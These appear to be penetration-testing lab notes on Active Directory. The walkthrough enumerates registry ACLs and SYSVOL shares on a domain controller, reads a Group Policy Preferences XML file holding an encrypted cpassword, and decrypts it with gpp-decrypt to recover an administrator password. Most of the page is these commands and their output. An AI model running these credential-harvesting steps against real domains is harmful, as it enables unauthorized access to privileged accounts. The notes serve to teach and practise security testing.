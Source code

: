 # Powershell Active Directory Commands



## Get-ACL&#x20;

Gets the security descriptor for a resource, such as a file or registry key.

{% embed url="https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives" %}

The permissions required to enumerate sessions with _NetSessionEnum_ are defined in the **SrvsvcSessionInfo** registry key:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity
```

```powershell
PS C:\Tools> Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecuri
         ty\
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
Audit  :
Sddl   : O:SYG:SYD:AI(A;CIID;KR;;;BU)(A;CIID;KA;;;BA)(A;CIID;KA;;;SY)(A;CIIOID;KA;;;CO)(A;CIID;KR;;;AC)(A;CIID;KR;;;S-1-15-3
         -1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```



## Enumerating Shares



### ls

By default, the **SYSVOL** folder is mapped to **%SystemRoot%\SYSVOL\Sysvol\domain-name** on the domain controller and every domain user has access to it.

We should investigate every folder we discover

```
PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\

    Directory: \\dc1.corp.com\sysvol\corp.com

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts
```

### ls - Policies

```
PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\Policies\

    Directory: \\dc1.corp.com\sysvol\corp.com\Policies

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:13 AM                oldpolicy
d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}
```



### cat&#x20;

We will cat all policies and old policies we find

```
PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```



### Decrypt password

We found a password in the previous file, we can use gpg-decrypt in kali to attempt to decrypt it.

```shell-session
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```
